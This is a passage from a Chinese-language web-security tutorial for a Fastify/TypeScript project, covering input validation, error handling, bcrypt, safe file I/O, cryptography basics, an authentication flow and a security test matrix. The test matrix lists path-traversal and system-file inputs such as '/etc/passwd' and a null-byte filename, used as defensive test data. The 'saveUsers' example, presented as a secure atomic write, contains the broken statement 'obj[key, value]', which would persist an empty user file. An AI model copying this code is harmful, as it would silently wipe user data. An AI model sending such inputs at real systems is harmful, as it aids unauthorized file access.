        D5["Token 轮换机制"]
    end

    场景 --> 影响
    防御 --> 场景

    style 场景 fill:#ffcdd2,stroke:#c62828
    style 影响 fill:#fff9c4,stroke:#f57f17
    style 防御 fill:#c8e6c9,stroke:#2e7d32
```

---

# 附录 E：安全编码最佳实践

## E.1 输入验证

```typescript
// ✅ 最佳实践：多层验证

// 第1层：类型检查
function isString(value: unknown): value is string {
  return typeof value === 'string'
}

// 第2层：格式校验
function isValidUsername(username: string): boolean {
  return /^[a-zA-Z0-9_-]{2,32}$/.test(username)
}

// 第3层：长度限制
function isValidPassword(password: string): boolean {
  return password.length >= 6 && password.length <= 128
}

// 第4层：业务逻辑校验
function isUniqueUsername(username: string): boolean {
  return !hasUser(username)
}

// 综合验证
async function validateRegistration(body: unknown): Promise<ValidationResult> {
  if (!isPlainObject(body)) return { valid: false, error: 'Invalid request body' }
  if (!isString(body.username)) return { valid: false, error: 'Username required' }
  if (!isString(body.password)) return { valid: false, error: 'Password required' }
  if (!isValidUsername(body.username)) return { valid: false, error: 'Invalid username format' }
  if (!isValidPassword(body.password)) return { valid: false, error: 'Invalid password length' }
  if (!isUniqueUsername(body.username)) return { valid: false, error: 'Username taken' }
  return { valid: true, data: { username: body.username, password: body.password } }
}
```

## E.2 错误处理

```typescript
// ❌ 错误：暴露内部信息
app.post('/login', async (req, res) => {
  try {
    const user = await db.findUser(req.body.username)
    if (!user) return res.status(401).send({ error: 'User not found in database' })
    // ...
  } catch (err) {
    return res.status(500).send({ error: err.message, stack: err.stack })
  }
})

// ✅ 正确：不暴露内部信息
app.post('/login', async (req, res) => {
  try {
    const user = getUser(req.body.username)
    if (!user) {
      auditLog('LOGIN_FAILED', undefined, { reason: 'user not found' })
      return res.status(401).send({ error: 'Invalid credentials' })
    }
    // ...
  } catch (err) {
    pinoLogger.error({ err }, 'Login error')
    return res.status(500).send({ error: 'Internal server error' })
  }
})
```

## E.3 安全的密码存储

```typescript
import bcrypt from 'bcryptjs'

// ✅ 正确：异步哈希
async function hashPassword(password: string): Promise<string> {
  return bcrypt.hash(password, 10)  // cost factor = 10
}

// ✅ 正确：异步比较
async function verifyPassword(password: string, hash: string): Promise<boolean> {
  return bcrypt.compare(password, hash)
}

// ❌ 错误：同步哈希（阻塞事件循环）
function hashPasswordSync(password: string): string {
  return bcrypt.hashSync(password, 10)  // 阻塞！
}
```

## E.4 安全的文件操作

```typescript
import fs from 'fs/promises'
import path from 'path'

// ✅ 安全的文件读取
async function safeReadFile(filePath: string, root: string): Promise<string | null> {
  // 1. 路径遍历检查
  const resolved = path.resolve(root, filePath)
  if (!resolved.startsWith(root + path.sep)) return null

  // 2. 符号链接检查
  const real = await fs.realpath(resolved)
  if (!real.startsWith(root + path.sep)) return null

  // 3. 大小检查
  const stat = await fs.stat(real)
  if (stat.size > 1024 * 1024) return null  // 1MB 限制

  // 4. 读取
  return fs.readFile(real, 'utf-8')
}

// ✅ 安全的文件写入
async function safeWriteFile(filePath: string, content: string, root: string): Promise<boolean> {
  // 1. 路径遍历检查
  const resolved = path.resolve(root, filePath)
  if (!resolved.startsWith(root + path.sep)) return false

  // 2. 危险扩展名检查
  const ext = path.extname(resolved).toLowerCase()
  const dangerous = new Set(['.exe', '.bat', '.cmd', '.dll', '.so'])
  if (dangerous.has(ext)) return false

  // 3. 大小检查
  if (Buffer.byteLength(content, 'utf-8') > 1024 * 1024) return false

  // 4. 原子写入
  const tmpPath = resolved + '.tmp'
  try {
    await fs.writeFile(tmpPath, content, 'utf-8')
    await fs.rename(tmpPath, resolved)
    return true
  } catch {
    await fs.unlink(tmpPath).catch(() => {})
    return false
  }
}
```

## E.5 安全的 JSON 处理

```typescript
// ❌ 危险：不验证 JSON 结构
app.post('/api/data', (req, res) => {
  const data = req.body  // 可能是任何东西
  process(data.username)  // 可能不存在
})

// ✅ 安全：验证 JSON 结构
interface CreateUserRequest {
  username: string
  password: string
}

function isCreateUserRequest(body: unknown): body is CreateUserRequest {
  return (
    typeof body === 'object' &&
    body !== null &&
    typeof (body as any).username === 'string' &&
    typeof (body as any).password === 'string'
  )
}

app.post('/api/users', async (req, res) => {
  if (!isCreateUserRequest(req.body)) {
    return res.status(400).send({ error: 'Invalid request body' })
  }
  // 现在 TypeScript 知道 body.username 和 body.password 是字符串
  const { username, password } = req.body
  // ...
})
```

---

# 附录 F：安全术语表

| 术语 | 英文 | 说明 |
|------|------|------|
| 认证 | Authentication | 验证用户身份 |
| 授权 | Authorization | 决定用户权限 |
| 鉴权 | Authorization Check | 验证权限的过程 |
| JWT | JSON Web Token | 自包含的身份令牌 |
| bcrypt | — | 密码哈希算法 |
| CSRF | Cross-Site Request Forgery | 跨站请求伪造 |
| XSS | Cross-Site Scripting | 跨站脚本攻击 |
| SSRF | Server-Side Request Forgery | 服务端请求伪造 |
| SQL 注入 | SQL Injection | SQL 代码注入 |
| 路径遍历 | Path Traversal | 目录穿越攻击 |
| RBAC | Role-Based Access Control | 基于角色的访问控制 |
| ABAC | Attribute-Based Access Control | 基于属性的访问控制 |
| TLS | Transport Layer Security | 传输层安全协议 |
| HTTPS | HTTP Secure | 加密的 HTTP |
| WSS | WebSocket Secure | 加密的 WebSocket |
| HSTS | HTTP Strict Transport Security | 强制 HTTPS |
| CSP | Content Security Policy | 内容安全策略 |
| CORS | Cross-Origin Resource Sharing | 跨域资源共享 |
| PKCE | Proof Key for Code Exchange | OAuth 授权码增强 |
| OIDC | OpenID Connect | 身份认证层 |
| OAuth | Open Authorization | 开放授权框架 |
| Seccomp | Secure Computing Mode | 安全计算模式 |
| Capabilities | Linux Capabilities | Linux 细粒度权限 |
| 盐值 | Salt | 密码哈希的随机值 |
| 彩虹表 | Rainbow Table | 预计算的哈希表 |
| 暴力破解 | Brute Force | 逐一尝试所有可能 |
| 字典攻击 | Dictionary Attack | 使用常见密码列表 |
| 中间人攻击 | Man-in-the-Middle | 拦截通信 |
| 点击劫持 | Clickjacking | 诱骗用户点击 |
| 提权 | Privilege Escalation | 获取更高权限 |
| 逃逸 | Escape/Breakout | 突破容器/沙箱 |
| 审计日志 | Audit Log | 安全事件记录 |
| 前向保密 | Forward Secrecy | 密钥泄露不影响历史通信 |
| 零信任 | Zero Trust | 永不信任，始终验证 |

---

# 总结

## 本篇核心知识点回顾

```mermaid
graph TB
    subgraph 总结["第十三篇核心知识"]
        subgraph CH1["第1章：认证基础"]
            K1["认证 vs 授权 vs 鉴权"]
            K2["Session-Cookie vs Token"]
            K3["OAuth 2.0 四种模式"]
            K4["OpenID Connect"]
        end

        subgraph CH2["第2章：JWT"]
            K5["JWT 三段式结构"]
            K6["签名算法选择"]
            K7["安全风险与防御"]
            K8["项目 JWT 实现"]
        end

        subgraph CH3["第3章：密码安全"]
            K9["哈希算法对比"]
            K10["bcrypt 原理"]
            K11["盐值的作用"]
            K12["项目密码处理"]
        end

        subgraph CH4["第4章：访问控制"]
            K13["RBAC 模型"]
            K14["ABAC 模型"]
            K15["会话归属检查"]
            K16["管理员权限"]
        end

        subgraph CH5["第5章：Web 安全"]
            K17["XSS/CSRF/注入"]
            K18["SSRF 防御"]
            K19["路径遍历防御"]
            K20["sanitizePath 实现"]
        end

        subgraph CH6["第6章：传输安全"]
            K21["TLS/HTTPS"]
            K22["HSTS"]
            K23["证书管理"]
            K24["WSS 配置"]
        end

        subgraph CH7["第7章：容器安全"]
            K25["Dockerfile 安全"]
            K26["Seccomp"]
            K27["Capabilities"]
            K28["非 root 运行"]
        end

        subgraph CH8["第8章：安全审计"]
            K29["审计日志设计"]
            K30["audit.ts 实现"]
            K31["事件响应"]
            K32["合规性"]
        end
    end

    style CH1 fill:#e3f2fd,stroke:#1565c0
    style CH2 fill:#e8f5e9,stroke:#2e7d32
    style CH3 fill:#fff3e0,stroke:#e65100
    style CH4 fill:#f3e5f5,stroke:#6a1b9a
    style CH5 fill:#ffcdd2,stroke:#c62828
    style CH6 fill:#c8e6c9,stroke:#2e7d32
    style CH7 fill:#b3e5fc,stroke:#0277bd
    style CH8 fill:#ffe0b2,stroke:#e65100
```

## 安全实践总结

| 领域 | 关键实践 | 项目实现 |
|------|---------|--------|
| **认证** | JWT + bcrypt + 速率限制 | `auth.ts` + `authPlugin.ts` |
| **授权** | RBAC + 归属检查 | `requireAdmin` + `userId` 检查 |
| **输入验证** | 多层验证 + 路径遍历防护 | `sanitizePath()` + Schema |
| **传输安全** | HTTPS + WSS + 安全头 | Nginx TLS + `@fastify/helmet` |
| **容器安全** | 非 root + 只读 + 资源限制 | Docker Compose 配置 |
| **审计** | 全量日志 + 异常检测 | `audit.ts` + `.audit.log` |

## 下一步学习建议

1. **实践**：尝试对项目进行安全审计，使用本篇的检查清单
2. **工具**：安装并使用 `npm audit`、`trivy`、`hadolint` 扫描项目
3. **攻击**：在本地环境尝试 XSS、CSRF、路径遍历攻击，理解防御原理
4. **阅读**：OWASP Top 10、CWE/SANS Top 25
5. **认证**：考虑为项目添加多因素认证（MFA）
6. **监控**：搭建安全监控系统，实时检测异常行为

---

> 📖 本篇到此结束。安全是一个持续的过程，不是一次性的任务。保持警惕，定期审计，持续学习。

---

# 附录 G：深入理解加密算法

## G.1 对称加密

对称加密使用同一个密钥进行加密和解密。

### 工作原理

```mermaid
sequenceDiagram
    participant A as 发送方
    participant B as 接收方

    Note over A,B: 共享同一个密钥 Key

    A->>A: 使用 Key 加密明文
    A->>B: 发送密文
    B->>B: 使用 Key 解密密文
    B->>B: 得到明文
```

### 常见对称加密算法

| 算法 | 密钥长度 | 块大小 | 状态 | 说明 |
|------|---------|--------|------|------|
| DES | 56位 | 64位 | ❌ 已淘汰 | 密钥太短，可被暴力破解 |
| 3DES | 168位 | 64位 | ❌ 已淘汰 | 三次 DES，慢且有安全问题 |
| AES-128 | 128位 | 128位 | ✅ 安全 | 最常用的加密标准 |
| AES-256 | 256位 | 128位 | ✅✅ 更安全 | 军事级加密 |
| ChaCha20 | 256位 | 流密码 | ✅✅ 更安全 | Google 推荐，移动设备友好 |

### AES 加密模式

```mermaid
graph TB
    subgraph 模式["AES 加密模式"]
        ECB["ECB 模式<br/>❌ 不推荐<br/>相同明文 → 相同密文"]
        CBC["CBC 模式<br/>⚠️ 需要 IV<br/>需要填充"]
        CTR["CTR 模式<br/>✅ 推荐<br/>流密码模式"]
        GCM["GCM 模式<br/>✅✅ 最推荐<br/>自带认证"]
    end

    style ECB fill:#ffcdd2,stroke:#c62828
    style CBC fill:#fff9c4,stroke:#f57f17
    style CTR fill:#c8e6c9,stroke:#2e7d32
    style GCM fill:#c8e6c9,stroke:#2e7d32,stroke-width:3px
```

| 模式 | 全称 | 特点 | 推荐度 |
|------|------|------|--------|
| ECB | Electronic Codebook | 最简单，但不安全 | ❌ |
| CBC | Cipher Block Chaining | 需要 IV，需要填充 | ⚠️ |
| CTR | Counter | 流密码模式，无需填充 | ✅ |
| GCM | Galois/Counter Mode | 加密+认证，最安全 | ✅✅ |

### AES-GCM 加密示例

```typescript
import crypto from 'crypto'

function encrypt(plaintext: string, key: Buffer): { ciphertext: string; iv: string; tag: string } {
  const iv = crypto.randomBytes(12)  // GCM 推荐 12 字节 IV
  const cipher = crypto.createCipheriv('aes-256-gcm', key, iv)

  let ciphertext = cipher.update(plaintext, 'utf8', 'hex')
  ciphertext += cipher.final('hex')

  const tag = cipher.getAuthTag()

  return {
    ciphertext,
    iv: iv.toString('hex'),
    tag: tag.toString('hex'),
  }
}

function decrypt(ciphertext: string, key: Buffer, iv: string, tag: string): string {
  const decipher = crypto.createDecipheriv('aes-256-gcm', key, Buffer.from(iv, 'hex'))
  decipher.setAuthTag(Buffer.from(tag, 'hex'))

  let plaintext = decipher.update(ciphertext, 'hex', 'utf8')
  plaintext += decipher.final('utf8')

  return plaintext
}
```

## G.2 非对称加密

非对称加密使用一对密钥：公钥加密，私钥解密。

### 工作原理

```mermaid
sequenceDiagram
    participant A as 发送方
    participant B as 接收方

    Note over B: 生成密钥对<br/>公钥（公开） + 私钥（保密）

    A->>B: 请求公钥
    B-->>A: 返回公钥

    A->>A: 使用公钥加密明文
    A->>B: 发送密文
    B->>B: 使用私钥解密密文
    B->>B: 得到明文
```

### 常见非对称加密算法

| 算法 | 密钥长度 | 安全性 | 速度 | 用途 |
|------|---------|--------|------|------|
| RSA-2048 | 2048位 | ✅ | 🐢 慢 | 加密、签名 |
| RSA-4096 | 4096位 | ✅✅ | 🐢🐢 更慢 | 高安全场景 |
| ECDSA P-256 | 256位 | ✅ | ⚡ 快 | 签名（JWT） |
| Ed25519 | 256位 | ✅✅ | ⚡⚡ 更快 | 签名（SSH） |
| X25519 | 256位 | ✅✅ | ⚡⚡ 更快 | 密钥交换 |

### 对称 vs 非对称加密对比

| 维度 | 对称加密 | 非对称加密 |
|------|---------|----------|
| **密钥** | 一个共享密钥 | 公钥 + 私钥对 |
| **速度** | ⚡ 快 | 🐢 慢（100-1000倍） |
| **密钥分发** | 困难（需要安全通道） | 容易（公钥可公开） |
| **适用场景** | 大量数据加密 | 密钥交换、数字签名 |
| **典型算法** | AES, ChaCha20 | RSA, ECDSA, Ed25519 |

### 混合加密（实际应用）

```mermaid
sequenceDiagram
    participant A as 发送方
    participant B as 接收方

    Note over A,B: TLS/HTTPS 使用混合加密

    B->>A: 发送公钥
    A->>A: 生成随机会话密钥
    A->>A: 用公钥加密会话密钥
    A->>B: 发送加密的会话密钥
    B->>B: 用私钥解密得到会话密钥

    Note over A,B: 现在双方共享会话密钥

    A->>B: 用会话密钥加密数据（对称加密）
    B->>A: 用会话密钥加密数据（对称加密）
```

**为什么用混合加密？** 非对称加密慢，只用来安全地交换密钥；对称加密快，用来加密实际数据。

## G.3 哈希函数

哈希函数是单向函数，将任意长度的输入转换为固定长度的输出。

### 哈希函数的性质

```mermaid
graph TB
    subgraph 性质["哈希函数三大性质"]
        P1["确定性<br/>相同输入 → 相同输出"]
        P2["单向性<br/>无法从哈希值反推输入"]
        P3["抗碰撞性<br/>极难找到两个不同输入<br/>产生相同哈希值"]
    end

    style P1 fill:#e3f2fd,stroke:#1565c0
    style P2 fill:#e8f5e9,stroke:#2e7d32
    style P3 fill:#fff3e0,stroke:#e65100
```

### 哈希函数的用途

| 用途 | 说明 | 使用的算法 |
|------|------|----------|
| **密码存储** | 存储密码的哈希值 | bcrypt, Argon2 |
| **数据完整性** | 验证文件是否被篡改 | SHA-256, SHA-3 |
| **数字签名** | 对消息的哈希值签名 | SHA-256 + RSA/ECDSA |
| **区块链** | 工作量证明 | SHA-256 (比特币) |
| **消息认证** | HMAC 消息认证码 | HMAC-SHA256 |
| **随机数生成** | 确定性随机 | SHA-256 (DRBG) |

### HMAC（基于哈希的消息认证码）

```mermaid
graph LR
    subgraph HMAC["HMAC 工作原理"]
        M["消息 Message"] --> H1["HMAC 算法"]
        K["密钥 Key"] --> H1
        H1 --> O["HMAC 值"]
    end

    Note["验证：用相同密钥和消息重新计算<br/>比较 HMAC 值是否相同"]

    style HMAC fill:#e3f2fd,stroke:#1565c0
```

```typescript
import crypto from 'crypto'

// 生成 HMAC
function generateHMAC(message: string, key: string): string {
  return crypto.createHmac('sha256', key).update(message).digest('hex')
}

// 验证 HMAC
function verifyHMAC(message: string, key: string, expectedHMAC: string): boolean {
  const actualHMAC = generateHMAC(message, key)
  // 使用时间恒定比较，防止时序攻击
  return crypto.timingSafeEqual(
    Buffer.from(actualHMAC, 'hex'),
    Buffer.from(expectedHMAC, 'hex')
  )
}
```

## G.4 数字签名

数字签名用于验证消息的**真实性**和**完整性**。

### 签名过程

```mermaid
sequenceDiagram
    participant S as 签名者
    participant V as 验证者

    S->>S: 计算消息的哈希值
    S->>S: 用私钥加密哈希值（签名）
    S->>V: 发送消息 + 签名

    V->>V: 计算消息的哈希值
    V->>V: 用公钥解密签名，得到原始哈希值
    V->>V: 比较两个哈希值
    alt 哈希值相同
        V->>V: ✅ 签名有效，消息未被篡改
    else 哈希值不同
        V->>V: ❌ 签名无效，消息可能被篡改
    end
```

### JWT 中的数字签名

```typescript
import jwt from 'jsonwebtoken'
import crypto from 'crypto'

// HS256：使用 HMAC-SHA256 签名（对称）
const token = jwt.sign(
  { userId: '123', username: 'alice' },
  'shared-secret-key',
  { algorithm: 'HS256', expiresIn: '15m' }
)

// RS256：使用 RSA-SHA256 签名（非对称）
const privateKey = fs.readFileSync('private.pem', 'utf8')
const publicKey = fs.readFileSync('public.pem', 'utf8')

// 签发（使用私钥）
const tokenRSA = jwt.sign(
  { userId: '123', username: 'alice' },
  privateKey,
  { algorithm: 'RS256', expiresIn: '15m' }
)

// 验证（使用公钥）
const decoded = jwt.verify(tokenRSA, publicKey, { algorithms: ['RS256'] })
```

## G.5 密钥管理最佳实践

### 密钥生成

```typescript
import crypto from 'crypto'

// 生成安全的随机密钥
function generateSecret(length: number = 32): string {
  return crypto.randomBytes(length).toString('hex')
}

// 生成 JWT 密钥（至少 256 位 = 32 字节）
const JWT_SECRET = generateSecret(32)       // 64 个十六进制字符
const JWT_REFRESH_SECRET = generateSecret(32) // 64 个十六进制字符

// 生成 RSA 密钥对
const { publicKey, privateKey } = crypto.generateKeyPairSync('rsa', {
  modulusLength: 2048,
  publicKeyEncoding: { type: 'spki', format: 'pem' },
  privateKeyEncoding: { type: 'pkcs8', format: 'pem' },
})

// 生成 ECDSA 密钥对
const { publicKey: ecPublic, privateKey: ecPrivate } = crypto.generateKeyPairSync('ec', {
  namedCurve: 'P-256',
  publicKeyEncoding: { type: 'spki', format: 'pem' },
  privateKeyEncoding: { type: 'pkcs8', format: 'pem' },
})
```

### 密钥存储

```mermaid
graph TB
    subgraph 存储方式["密钥存储方式"]
        S1["环境变量<br/>开发环境"]
        S2["密钥管理服务<br/>生产环境<br/>AWS KMS / HashiCorp Vault"]
        S3["硬件安全模块<br/>HSM<br/>最高安全级别"]
        S4["配置文件<br/>❌ 不推荐<br/>可能被提交到 Git"]
    end

    style S1 fill:#fff9c4,stroke:#f57f17
    style S2 fill:#c8e6c9,stroke:#2e7d32
    style S3 fill:#c8e6c9,stroke:#2e7d32,stroke-width:3px
    style S4 fill:#ffcdd2,stroke:#c62828
```

### 密钥轮换

```mermaid
sequenceDiagram
    participant O as 旧密钥
    participant N as 新密钥
    participant S as 服务器
    participant C as 客户端

    Note over S: 1. 生成新密钥
    Note over S: 2. 同时接受新旧密钥验证

    C->>S: 使用旧密钥签发的 Token
    S->>O: 用旧密钥验证 ✅

    C->>S: 使用新密钥签发的 Token
    S->>N: 用新密钥验证 ✅

    Note over S: 3. 过渡期结束后，停止接受旧密钥

    C->>S: 使用旧密钥签发的 Token
    S->>O: 用旧密钥验证 ❌
    S-->>C: 401 Invalid token
```

---

# 附录 H：项目安全架构深度分析

## H.1 安全架构全景图

```mermaid
graph TB
    subgraph 客户端层["客户端层（手机浏览器）"]
        C1["HTTPS 连接"]
        C2["Token 存储"]
        C3["输入验证"]
        C4["CSP 策略"]
    end

    subgraph 传输层["传输层"]
        T1["TLS 1.2/1.3"]
        T2["HSTS"]
        T3["安全响应头"]
        T4["WSS"]
    end

    subgraph 应用层["应用层"]
        A1["速率限制"]
        A2["JWT 认证"]
        A3["权限校验"]
        A4["输入验证"]
        A5["路径遍历防护"]
        A6["文件类型过滤"]
    end

    subgraph 数据层["数据层"]
        D1["bcrypt 密码哈希"]
        D2["文件系统隔离"]
        D3["审计日志"]
        D4["原子写入"]
    end

    subgraph 容器层["容器层"]
        CON1["非 root 运行"]
        CON2["只读文件系统"]
        CON3["资源限制"]
        CON4["禁止提权"]
    end

    客户端层 --> 传输层
    传输层 --> 应用层
    应用层 --> 数据层
    数据层 --> 容器层

    style 客户端层 fill:#e3f2fd,stroke:#1565c0
    style 传输层 fill:#e8f5e9,stroke:#2e7d32
    style 应用层 fill:#fff3e0,stroke:#e65100
    style 数据层 fill:#f3e5f5,stroke:#6a1b9a
    style 容器层 fill:#ffcdd2,stroke:#c62828
```

## H.2 认证流程完整时序图

```mermaid
sequenceDiagram
    participant U as 用户
    participant F as Fastify 服务器
    participant Auth as authPlugin
    participant Route as auth.ts
    participant Store as .users.json
    participant Audit as audit.ts

    Note over U,Audit: === 首次登录 ===

    U->>F: POST /api/auth/login<br/>{username, password}
    F->>Auth: onRequest 钩子
    Note over Auth: 白名单路径，跳过认证
    Auth->>Route: 继续处理

    Route->>Store: getUser(username)
    Store-->>Route: 用户数据（含 passwordHash）

    Route->>Route: bcrypt.compare(password, passwordHash)

    alt 密码错误
        Route->>Audit: auditLog('LOGIN_FAILED', ...)
        Route-->>U: 401 Invalid credentials
    end

    Route->>Route: generateTokenPair(userId, username)
    Note over Route: accessToken = jwt.sign(..., {expiresIn: '15m'})
    Note over Route: refreshToken = jwt.sign(..., {expiresIn: '7d'})

    Route->>Audit: auditLog('LOGIN', userId, {ip})
    Route-->>U: {accessToken, refreshToken}

    Note over U,Audit: === 后续 API 请求 ===

    U->>F: GET /api/fs/tree<br/>Authorization: Bearer <accessToken>
    F->>Auth: onRequest 钩子
    Auth->>Auth: jwt.verify(token, secret)
    Auth->>Auth: request.user = decoded
    Auth->>Route: 继续处理（request.user 已设置）
    Route-->>U: {entries: [...]}

    Note over U,Audit: === Token 过期后刷新 ===

    U->>F: POST /api/auth/refresh<br/>{refreshToken}
    F->>Auth: onRequest 钩子
    Note over Auth: 白名单路径，跳过认证
    Auth->>Route: 继续处理

    Route->>Route: jwt.verify(refreshToken, refreshSecret)
    Route->>Route: jwt.sign({userId, username}, secret, {expiresIn: '15m'})
    Route-->>U: {accessToken: newToken}

    Note over U,Audit: === WebSocket 连接 ===

    U->>F: WS /ws/terminal?token=xxx
    F->>Auth: onRequest 钩子
    Note over Auth: 白名单路径（WebSocket），跳过 HTTP 认证
    Auth->>Route: 继续处理
    Route->>Route: verifyWsUpgradeToken()
    Route->>Route: jwt.verify(token, secret)
    Route-->>U: WebSocket 连接建立
```

## H.3 文件系统安全深度分析

```mermaid
flowchart TB
    subgraph 输入["用户输入"]
        I1["GET /api/fs/file?path=xxx"]
        I2["PUT /api/fs/file {path, content}"]
    end

    subgraph 验证层["验证层"]
        V1["Null 字节检查"]
        V2["path.resolve() 解析"]
        V3["前缀检查（根目录内）"]
        V4["fs.realpath() 解析符号链接"]
        V5["再次前缀检查"]
    end

    subgraph 写入检查["写入额外检查"]
        W1["危险扩展名检查"]
        W2["文件大小检查（1MB）"]
        W3["原子写入（tmp + rename）"]
    end

    subgraph 操作["文件操作"]
        OP1["读取文件内容"]
        OP2["写入文件内容"]
    end

    subgraph 审计["审计"]
        AU1["FILE_READ 日志"]
        AU2["FILE_WRITE 日志"]
        AU3["FILE_WRITE_BLOCKED 日志"]
    end

    I1 --> V1
    I2 --> V1
    V1 --> V2 --> V3 --> V4 --> V5
    V5 -->|读取| OP1
    V5 -->|写入| W1
    W1 --> W2 --> W3 --> OP2

    OP1 --> AU1
    OP2 --> AU2
    W1 -->|被阻止| AU3

    style 验证层 fill:#e3f2fd,stroke:#1565c0
    style 写入检查 fill:#fff3e0,stroke:#e65100
    style 操作 fill:#e8f5e9,stroke:#2e7d32
    style 审计 fill:#ffcdd2,stroke:#c62828
```

## H.4 用户数据持久化安全

```typescript
// 文件：apps/server/src/plugins/auth.ts

// 用户数据存储在 .users.json 文件中
// 使用 write-then-rename 原子写入

function saveUsers(): void {
  try {
    const usersFilePath = getUsersFilePath()
    const obj: Record<string, StoredUser> = {}
    for (const [key, value] of users.entries()) {
      obj[key, value]
    }
    const dir = path.dirname(usersFilePath)
    if (!fs.existsSync(dir)) {
      fs.mkdirSync(dir, { recursive: true })
    }
    // 原子写入：先写临时文件，再重命名
    const tmpPath = usersFilePath + '.tmp'
    fs.writeFileSync(tmpPath, JSON.stringify(obj, null, 2), 'utf-8')
    fs.renameSync(tmpPath, usersFilePath)
  } catch (err) {
    pinoLogger.error({ err }, 'Failed to save users file')
    throw new Error('Failed to persist user data')
  }
}
```

**安全设计要点：**

```mermaid
graph TB
    subgraph 要点["用户数据持久化安全要点"]
        P1["✅ 原子写入<br/>write-then-rename 防止崩溃时数据损坏"]
        P2["✅ 密码哈希<br/>bcrypt.hash(password, 10)"]
        P3["✅ API 响应过滤<br/>返回时删除 passwordHash"]
        P4["✅ 文件权限<br/>.users.json 只有服务器可读"]
        P5["✅ 错误处理<br/>写入失败时抛出异常"]
    end

    style 要点 fill:#e8f5e9,stroke:#2e7d32
```

## H.5 安全测试矩阵

| 测试场景 | 测试方法 | 预期结果 | 测试文件 |
|---------|---------|---------|--------|
| 过期 JWT | 使用已过期的 Token | 401 Unauthorized | security.test.ts |
| 格式错误 JWT | 使用无效格式的 Token | 401 Unauthorized | security.test.ts |
| 无 Token 请求 | 不携带 Authorization 头 | 401 Unauthorized | security.test.ts |
| 路径遍历 ../ | 使用 `../` 访问上级目录 | 403 Forbidden | security.test.ts |
| 绝对路径 | 使用 `/etc/passwd` | 403 Forbidden | security.test.ts |
| Null 字节 | 使用 `file\0.jpg` | 403 Forbidden | security.test.ts |
| 危险文件类型 | 写入 .exe/.bat 文件 | 403 Forbidden | security.test.ts |
| 超大文件 | 写入超过 1MB 的内容 | 413 Payload Too Large | security.test.ts |
| 正常文件读写 | 读写 .ts/.js 文件 | 200 OK | security.test.ts |
| 登录速率限制 | 短时间大量登录请求 | 429 Too Many Requests | auth.test.ts |
| 管理员权限 | 普通用户访问管理接口 | 403 Forbidden | authPlugin.test.ts |
| WebSocket 认证 | 无 Token 连接 WebSocket | 连接关闭 4001 | wsAuth.test.ts |

---

# 附录 I：安全架构演进路线图

## I.1 当前安全状态

```mermaid
graph LR
    subgraph 当前["当前安全能力"]
        A["✅ JWT 认证"]
        B["✅ bcrypt 密码哈希"]
        C["✅ 速率限制"]
        D["✅ 路径遍历防护"]
        E["✅ 审计日志"]
        F["✅ 安全响应头"]
    end

    style 当前 fill:#c8e6c9,stroke:#2e7d32
```

## I.2 短期改进（1-3个月）

```mermaid
graph LR
    subgraph 短期["短期改进"]
        S1["添加 MFA 多因素认证"]
        S2["实现 Token 黑名单"]
        S3["添加登录 IP 地理位置检测"]
        S4["集成 npm audit 到 CI"]
        S5["添加安全测试到 CI"]
    end

    style 短期 fill:#fff3e0,stroke:#e65100
```

## I.3 中期改进（3-6个月）

```mermaid
graph LR
    subgraph 中期["中期改进"]
        M1["迁移到 Argon2 密码哈希"]
        M2["实现 RBAC 角色系统"]
        M3["添加 API 密钥认证"]
        M4["实现密钥轮换机制"]
        M5["集成 Trivy 镜像扫描"]
        M6["添加安全监控告警"]
    end

    style 中期 fill:#e3f2fd,stroke:#1565c0
```

## I.4 长期改进（6-12个月）

```mermaid
graph LR
    subgraph 长期["长期改进"]
        L1["实现零信任架构"]
        L2["添加 SIEM 集成"]
        L3["实现自动化安全审计"]
        L4["添加渗透测试流程"]
        L5["SOC 2 合规认证"]
        L6["实现 ABAC 策略引擎"]
    end

    style 长期 fill:#f3e5f5,stroke:#6a1b9a
```

---

# 附录 J：安全编码规范

## J.1 TypeScript 安全编码规范

### 输入验证规范

```typescript
// 规范 1：所有外部输入必须验证
function handleRequest(body: unknown) {
  // ✅ 正确：验证输入类型
  if (typeof body !== 'object' || body === null) {
    throw new Error('Invalid request body')
  }

  // ✅ 正确：验证字段存在性和类型
  const { username, password } = body as Record<string, unknown>
  if (typeof username !== 'string' || typeof password !== 'string') {
    throw new Error('Missing required fields')
  }

  // ✅ 正确：验证字段长度和格式
  if (username.length < 2 || username.length > 32) {
    throw new Error('Invalid username length')
  }
  if (!/^[a-zA-Z0-9_-]+$/.test(username)) {
    throw new Error('Invalid username format')
  }
}
```

### 错误处理规范

```typescript
// 规范 2：不暴露内部错误信息
async function safeHandler(request: Request, reply: Reply) {
  try {
    // 业务逻辑
    const result = await processRequest(request)
    return reply.send(result)
  } catch (err) {
    // ✅ 正确：记录详细错误，返回通用错误
    pinoLogger.error({ err, url: request.url }, 'Request failed')
    return reply.code(500).send({ error: 'Internal server error' })

    // ❌ 错误：暴露错误详情
    // return reply.code(500).send({ error: err.message, stack: err.stack })
  }
}
```

### 日志记录规范

```typescript
// 规范 3：安全相关的操作必须记录审计日志
async function createUser(request: Request, reply: Reply) {
  const { username, password } = request.body

  // 创建用户
  const user = await createUserInDB(username, password)

  // ✅ 正确：记录审计日志
  auditLog('USER_CREATE', request.user.userId, {
    createdUser: username,
    ip: request.ip,
  })

  // ✅ 正确：记录操作日志
  pinoLogger.info({
    action: 'user_created',
    createdBy: request.user.username,
    createdUser: username,
  }, 'New user created')

  return reply.code(201).send(user)
}
```

### 密码处理规范

```typescript
// 规范 4：密码必须安全处理
import bcrypt from 'bcryptjs'

// ✅ 正确：使用异步哈希
async function hashPassword(password: string): Promise<string> {
  return bcrypt.hash(password, 10)
}

// ✅ 正确：使用异步比较
async function verifyPassword(password: string, hash: string): Promise<boolean> {
  return bcrypt.compare(password, hash)
}

// ❌ 错误：使用同步方法
// function hashPasswordSync(password: string): string {
//   return bcrypt.hashSync(password, 10)  // 阻塞事件循环！
// }

// ❌ 错误：日志中记录密码
// pinoLogger.info({ password }, 'User login')

// ✅ 正确：日志中不记录密码
pinoLogger.info({ username }, 'User login')
```

### 路径处理规范

```typescript
// 规范 5：文件路径必须验证
import path from 'path'
import fs from 'fs/promises'

async function safePathOperation(inputPath: string, root: string): Promise<string | null> {
  // ✅ 正确：检查 Null 字节
  if (inputPath.includes('\0')) return null

  // ✅ 正确：解析路径
  const resolved = path.resolve(root, inputPath)

  // ✅ 正确：检查是否在根目录内
  if (!resolved.startsWith(root + path.sep) && resolved !== root) {
    return null
  }

  // ✅ 正确：解析符号链接
  try {
    const real = await fs.realpath(resolved)
    if (!real.startsWith(root + path.sep) && real !== root) {
      return null
    }
    return real
  } catch {
    return null
  }
}
```

### HTTP 响应规范

```typescript
